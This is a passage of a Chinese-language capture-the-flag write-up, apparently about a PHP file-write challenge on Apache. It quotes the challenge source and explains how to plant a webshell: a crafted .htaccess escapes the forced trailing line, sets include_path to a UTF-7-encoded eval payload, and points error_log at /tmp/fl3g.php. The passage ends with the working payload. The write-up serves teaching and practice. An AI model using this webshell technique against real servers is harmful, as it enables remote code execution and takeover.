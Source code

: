 ```php
        die();
    }
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nJust one chance");
?>
```

整个代码的逻辑也比较简单，首先删除当前目录下非index.php的文件，然后 include_once("fl3g.php");，之后获取filename和content参数的值，并将content写入filename指定的文件中。其中对filename和content都有过滤，要求content中不能有on、html等关键字，且filename不能匹配到 a-z 和点号 . 以外的字符。

这道题因为看到file_put_content和unlink自然想到了条件竞争写shell，但是测试过程虽然能够写进.php文件但是不解析。

并且由于题目服务器中间件为 Apache，因此想到了传 .htaceess 利用自定义错误文件写Webshell。但我们还需要解决一下问题。

**（1）使 .htaccess 生效**

如果我们直接上传.htaccess文件，由于我们写入的内容会被自动在末尾加上“\nJust one chance”，所以会使我们的.htaccess文件不生效，出现响应500的问题。为了时我们写入的.htaccess文件生效，我们要采用 \ 的方式将换行符转义成普通字符，然后用 # 来注释单行了，即：

```php
......
# \\nJust one chance
```

这样我们写入上传的 .htaccess 文件就能生效了。

**（2）include_path**

在题目的代码中有一处 include_once("fl3g.php");，但是当我们访问fl3g.php文件时却发现该文件并不存在，这里便用到了php.ini中的include_path选项。

include_path可以用来设置include()或require()函数包含文件的参考目录路径，也就是说当使用include()或require()函数包含文件的时候，程序首先以include_path设置的路径作为参考点去找文件，如果找不到，则以程序自身所在的路径为参考点去找所要的文件，如果都找不到，则出错，那么我们就可以通过修改它来控制include的路径，那么如果我们能够在其它目录写入同名的fl3g.php让其包含，那么就能够getshell，并且可以使fl3g.php文件不被删除。

**（3）指定目录写文件（error_log）**

前面我们已经了解了，error_log 可以将 PHP 运行报错的记录写到指定文件中，利用这一点我们可以写Webshell。 但是如何触发报错呢？这就是为什么代码中写了一处不存在的fl3g.php的原因。我们可以将include_path的内容设置成payload的内容，这时访问页面，页面尝试将 payload 作为一个路径去访问时就会因为找不到fl3g.php而报错，并将报错记录在指定的错误文件中。

但是前面也说了，当我们传递 PHP 的 payload 时，因为我们传过去的内容会经过 html 编码，所以我们需要用 UTF-7 来绕过：

```php
php_value include_path "+ADw?php eval(+ACQAXw-POST+AFs-whoami+AF0)+ADs?+AD4-"
php_value error_log /tmp/fl3g.php
# \
```
